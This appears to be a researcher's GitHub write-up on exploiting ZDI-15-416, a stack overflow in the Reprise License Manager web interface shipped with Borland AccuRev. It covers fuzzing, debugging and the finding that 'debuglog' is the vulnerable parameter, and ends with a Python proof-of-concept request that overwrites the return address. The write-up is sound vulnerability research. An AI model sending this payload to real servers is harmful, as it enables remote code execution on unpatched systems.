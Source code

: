 # Borland-AccuRev-StackoverFlow
****
mail :   Firozimaysam@gmail.com 
twitter : https://twitter.com/R00tkitSMM 

I try to Exploit recently published  vulnerability in Borland AccuRev 

http://www.zerodayinitiative.com/advisories/ZDI-15-416/

````
his vulnerability allows remote attackers to execute arbitrary code on 
vulnerable installations of Borland AccuRev. Authentication is not required
to exploit this vulnerability.

The specific flaw exists within the service_startup_doit functionality
of the Reprise License Manager service. The issue lies in the handling 
of the licfile parameter which can result in overflowing a stack-based buffer.
An attacker could leverage this vulnerability to execute code under the context of SYSTEM.
````
there was two fake information in ZDI report

1. mapping between string and function is "service_Setup_doit" not "service_startup_doit"
2. vulnerable parameter is debuglog not licfile 

RLM come with AccuRev but it can be directly download  by following link:  http://www.reprisesoftware.com/license_admin_kits/rlm.v11.3BL1-x86_w1.admin.exe

searching service_startup_doit string inside rlm.exe dont have any results so i changed it to service_  to get following strings

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/stringInIdapro.png)

after some reversing and  analyzing functions that use above string i decide to use another way to finding bug 

ZDI said vulnerable function is accessible remotely so I start read RLM manual to find out how it work 
RLM have Web interface it start http server on port 5054 , with the help of burpsuite we can view all http parameters in post or get requests 
after fuzzing Web interface i found target "licfile" parameter in one  Post request
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/burpsuite.png)

for checking licfile parameter vulnerability with help of BurpSuite i send big string parameter to web server
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/bigbuffer.png)
but rlm.exe send error  response  without any crash 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/httperror.png)
i set breakpoint in Immunity debugger to track how rlm.exe validate size of string 
![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/asm-check.png)

based  on above asm code rlm check string size be less than or equal to 0x400 to prevent buffer overflow so i thought my rlm.exe version is not vulnerable but i start fuzzing other attack vectors ,so i find out if you send big  string in debuglog parameter and  if string is less than  0x400 to bypass above check you can overwrite return value in stack  with  notorious 0x41414141 in rlm.exe so i as said  vulnerable function is debuglog not licfile .

![alt tag](https://raw.githubusercontent.com/Rootkitsmm/Borland-AccuRev-StackoverFlow/master/eip.png)

i checked rlm.exe and  it does not support ASLR but there was a big problem,rlm.exe contains null in its address,so we can't use any address to build our ROP inside rlm.exeو because it use string copy functions and it copy string in stack until null byte.
so exploiting this vulnerability is so simple in XP,just return to shellcode inside stack without ROP 

````
import requests
url="http://10.211.55.39:5054/goform/service_setup_doit"
data= {
    'servicedesc':'RLM+License+Server',
    'servicename':'rlm',
    'action':'1',
    'debuglog':'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
    CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'+"\x41\x41\x41\x41",
    'licfile':'C:\Users\username\Desktop\rlm-old'
    }
print requests.post(url, data=data).text
``````

